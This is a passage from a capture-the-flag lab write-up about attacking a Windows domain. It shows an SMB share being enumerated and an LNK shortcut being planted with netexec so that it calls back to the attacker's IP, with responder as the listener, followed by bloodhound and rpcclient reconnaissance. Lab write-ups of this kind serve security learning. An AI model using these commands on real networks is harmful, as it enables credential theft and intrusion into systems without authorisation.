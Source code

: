 
### Enumerating as hsmith: {#enumerating-as-hsmith}

-   **Checking the shares they have access to we can see it's the same as fsmith**.
    -   {{< figure src="/ox-hugo/2024-11-03-105806_.png" >}}

-   **Interestingly they do not have win-rm access**.
    -   {{< figure src="/ox-hugo/2024-11-03-105834_.png" >}}


### Creating an LNK file on the rico share: {#creating-an-lnk-file-on-the-rico-share}

-   I create an LNK file on the rico share using netexec:
    -   `netexec smb $box -u $user -p $pass -M slinky -o SERVER=10.10.14.121 NAME=important`
    -   {{< figure src="/ox-hugo/2024-11-03-110750_.png" >}}

-   **I start my listener using responder**:
    -   `sudo responder -I tun0`
    -   {{< figure src="/ox-hugo/2024-11-03-111545_.png" >}}
    -   I leave it running for a long time but do not get a hit.


#### LNK attack Explanation: {#lnk-attack-explanation}

-   Even though this didn't work I wanted to explain the concept and methodology.
    -   Creating an `LNK` file on the rico SMB share using netexec allows me to inject a shortcut that, when opened, will trigger code execution with minimal user interaction. By specifying the parameters `SERVER=10.10.14.121` and `NAME=important`, I'm directing the LNK to attempt a network connection to my listener at `10.10.14.121`, exploiting the target's file interaction to potentially escalate privileges or gain further access. This setup leverages user trust in shared network files, making it a low-profile way to initiate a callback for further exploitation.


### Performing a bloodhound scan: {#performing-a-bloodhound-scan}

-   Usually I would do this first, however I got caught up in easy low-hanging fruit priv-esc paths.
-   `bloodhound-python -dc $machine.$domain -c All -u $user -p $pass -d $domain -ns $box`
-   {{< figure src="/ox-hugo/2024-11-03-152842_.png" >}}
-   Looking at the results there is nothing immediately sticking out to me.


### Enumerating description fields using rpcclient: {#enumerating-description-fields-using-rpcclient}

-   I connect using `rpcclient` and enumerate the description fields of the administrator and `svc_loanmgr` account in-case they had stored credentials in these field however they don't have any:
    -   {{< figure src="/ox-hugo/2024-11-03-163609_.png" >}}



## 3. Privilege Escalation: {#3-dot-privilege-escalation}

